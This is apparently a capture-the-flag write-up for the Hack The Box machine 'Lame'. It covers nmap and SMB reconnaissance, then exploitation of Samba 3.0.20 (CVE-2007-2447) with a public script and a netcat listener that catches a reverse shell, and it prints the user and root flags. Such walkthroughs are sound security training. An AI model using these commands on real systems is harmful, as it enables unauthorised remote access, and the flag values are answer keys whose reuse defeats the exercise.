 ### IP
`10.10.10.3`

# Recon

### nmap
`nmap -sC -sV 10.10.10.3 -o Lame.nmap`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 13:36 EST
Nmap scan report for 10.10.10.3
Host is up (0.059s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OS: Unix

Host script results:
|_clock-skew: mean: 2h33m48s, deviation: 3h32m10s, median: 3m46s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-17T13:41:14-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.65 seconds

```
* ftp is open with anonymous login... we can try that
* smb is running on samba with a workgroup named `WORKGROUP`


### smb
* We can view smb share drives with the command `smbmap -H 10.10.10.3`
```
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))

```
* looks like the `/tmp` share is open to us... let's try to connect:
* `smbclient //10.10.10.3/tmp` gives us the error: `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`
	* Apparently smbclient prevents people from connecting with insecure protocols
	* [this](https://www.linuxquestions.org/questions/slackware-14/can-not-access-samba-shares-on-current-samba-4-11-a-4175662348/) link showed me that we can add `--option='client min protocol=NT1'` to the end to prevent this
* `smbclient //10.10.10.3/tmp --option='client min protocol=NT1'` with no password logs us in as anonymous
* When we show the directory, we get this:
```
smb: \> dir
  .                                   D        0  Tue Nov 17 14:25:16 2020
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  muhbufy                             N        0  Tue Nov 17 14:00:56 2020
  .ICE-unix                          DH        0  Tue Nov 17 13:40:24 2020
  vmware-root                        DR        0  Tue Nov 17 13:40:51 2020
  .X11-unix                          DH        0  Tue Nov 17 13:40:52 2020
  uhux                                N        0  Tue Nov 17 13:58:50 2020
  .X0-lock                           HR       11  Tue Nov 17 13:40:52 2020
  5563.jsvc_up                        R        0  Tue Nov 17 13:41:30 2020
  nqiqpy                              N        0  Tue Nov 17 13:59:08 2020
  vgauthsvclog.txt.0                  R     1600  Tue Nov 17 13:40:22 2020

		7282168 blocks of size 1024. 5386460 blocks available
```
* I went through the files and used the `more` command to look at the contents. Nothing interesting

# Exploitation

### ftp
* login to ftp with `ftp 10.10.10.3`
	* username is `anonymous`
	* no password

* After some looking around, it looks like there aren't any files on the system
	* Maybe we can upload something later?

### smb
* We can look up exploits for samba here by executing `searchsploit samba 3.0.20`
	* There's an exploit called the username map script
* I tried for a while to get this working with the metasploit module, but it wouldn't work
* Looking up some exploits, I found a recently updated one on github [here](https://github.com/amriunix/CVE-2007-2447)
* Let's clone it into our directory with `git clone https://github.com/amriunix/CVE-2007-2447`
* Make sure the dependencies are installed and run `python3 usermap_script.py 10.10.10.3 139 10.10.14.19 4444`
	* Note, `10.10.14.19` should be replaced with your host ip on the vpn (tun0 interface for me)
* In a separate window, we can open a reverse netcat listener with `nc -lvp 4444`
* Running the python command, we get a response:
```
Listening on 0.0.0.0 4444
Connection received on 10.10.10.3 33583
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
* If we cd into the `/home/makis/` directory, we can use `cat user.txt` to get the user flag: `3f5539240389b28cd772586d540c28e6`
* If we cd into the `/root/` directory we can use `cat root.txt` to get the root flag: `646c15a52c04788f2bfaf1a25d402fb4`
